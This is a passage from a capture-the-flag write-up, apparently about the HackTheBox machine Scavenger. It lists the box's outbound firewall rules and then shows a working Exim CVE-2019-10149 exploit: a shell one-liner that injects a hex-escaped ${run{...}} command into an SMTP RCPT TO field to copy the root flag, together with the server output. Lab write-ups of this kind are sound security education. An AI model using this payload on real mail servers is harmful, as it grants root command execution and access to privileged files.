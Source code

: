 
Specifically looking at the OUTPUT rules, the default policy is to block. Then
, the rules are:

  1. Allow icmp out.
  2. Allow DNS out based on dest port.
  3. Allow FTP-data out based on source port.
  4. Allow anything out via loopback.
  5. Allow established TCP connections out.
  6. Allow established UDP connections out.
  7. Reject.

### Exim Exploit CVE-2019-10149

I had written some defensive signatures for this CVE when it was released in
summer 2019, so I was excited to see this box potentially running a vulnerable
version of EXIM. It took a bit of playing around with, but [this
post](https://glitchwitch.io/blog/2019-06/exploiting-cve-2019-10149/) really
helped. Shoutout to jkr, who was very helpful in figuring this out.

I’ll do a `touch` on the file first, as if EXIM creates it, it creates it with
permissions 600, which means I won’t be able to read it. Then, I’ll string a
bunch of `echo` and `sleep` to simulate the SMTP connection, sending the
malicious payload in the to address. In this case, I’ll have it run the
command to copy the root flag into `/dev/shm`. It’s tricky not to use `/tmp`
here, since systemd’s private tmp feature means that Apache and EXIM have
different `/tmp`.

    
    
    scavenger> touch /dev/shm/flag;(sleep 0.1 ; echo HELO foo ; sleep 0.1 ; echo 'MAIL FROM:<>' ; sleep 0.1 ; echo 'RCPT TO:<${run{\x2Fbin\x2Fsh\x09-c\x09\x22cat\x09\x2Froot\x2Froot.txt\x3E\x3E\x2Fdev\x2Fshm\x2Fflag\x22}}@localhost>' ; sleep 0.1 ; echo DATA ; sleep 0.1 ; echo "Received: 1" ; echo "Received: 2" ;echo "Received: 3" ;echo "Received: 4" ;echo "Received: 5" ;echo "Received: 6" ;echo "Received: 7" ;echo "Received: 8" ;echo "Received: 9" ;echo "Received: 10" ;echo "Received: 11" ;echo "Received: 12" ;echo "Received: 13" ;echo "Received: 14" ;echo "Received: 15" ;echo "Received: 16" ;echo "Received: 17" ;echo "Received: 18" ;echo "Received: 19" ;echo "Received: 20" ;echo "Received: 21" ;echo "Received: 22" ;echo "Received: 23" ;echo "Received: 24" ;echo "Received: 25" ;echo "Received: 26" ;echo "Received: 27" ;echo "Received: 28" ;echo "Received: 29" ;echo "Received: 30" ;echo "Received: 31" ;echo "" ; echo "." ; echo QUIT) | nc 127.0.0.1 25
    220 ib01.supersechosting.htb ESMTP Exim 4.89 Tue, 27 Aug 2019 08:22:09 +0200
    250 ib01.supersechosting.htb Hello localhost [127.0.0.1]
    250 OK
    250 Accepted
    354 Enter message, ending with "." on a line by itself
    250 OK id=1i2Urp-0000m2-Dy
    221 ib01.supersechosting.htb closing connection
    
    scavenger> cat /dev/shm/flag
    4a08d8174e9ec22b01d91ddb9a732b17
    4a08d8174e9ec22b01d91ddb9a732b17
    

[](/2020/02/29/htb-scavenger.html)

